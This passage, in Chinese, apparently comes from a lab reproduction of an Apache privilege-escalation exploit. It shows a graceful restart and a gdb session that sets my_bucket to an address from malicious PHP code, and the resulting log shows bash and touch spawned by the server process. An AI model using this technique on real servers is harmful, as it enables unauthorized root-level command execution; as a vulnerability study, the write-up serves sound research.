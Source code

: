 ##### 执行apachectl graceful，使其优雅重启

```
[root@bogon john]# apachectl graceful
[root@bogon john]# 
```

##### 修改my_bucket

我们将my_bucket，设置为0x7f1f62a3e140，该地址是执行恶意PHP代码时，输出的evil_shm_mid_addr

```
Continuing.

Program received signal SIGUSR1, User defined signal 1.

0x00007f1f612bdf53 in __select_nocancel () from /lib64/libc.so.6

(gdb) c

Continuing.

[New process 20155]

[Thread debugging using libthread_db enabled]

Using host libthread_db library “/lib64/libthread_db.so.1”.

[Switching to Thread 0x7f1f62ae9780 (LWP 20155)] `Breakpoint 1, child_main (child_num_arg=child_num_arg@entry=0, child_bucket=child_bucket@entry=0) at prefork.c:380

380    {

(gdb) set my_bucket = 0x7f1f62a3e140

(gdb) c

Continuing.

[New process 20177]

[Thread debugging using libthread_db enabled]

Using host libthread_db library “/lib64/libthread_db.so.1”.

process 20177 is executing new program: /usr/bin/bash

Error in re-setting breakpoint 1: Function “child_main” not defined.

process 20177 is executing new program: /usr/bin/touch

Missing separate debuginfos, use: debuginfo-install bash-4.2.46-31.el7.x86_64

[Inferior 3 (process 20177) exited normally]

Missing separate debuginfos, use: debuginfo-install coreutils-8.22-23.el7.x86_64

(gdb)` 
```
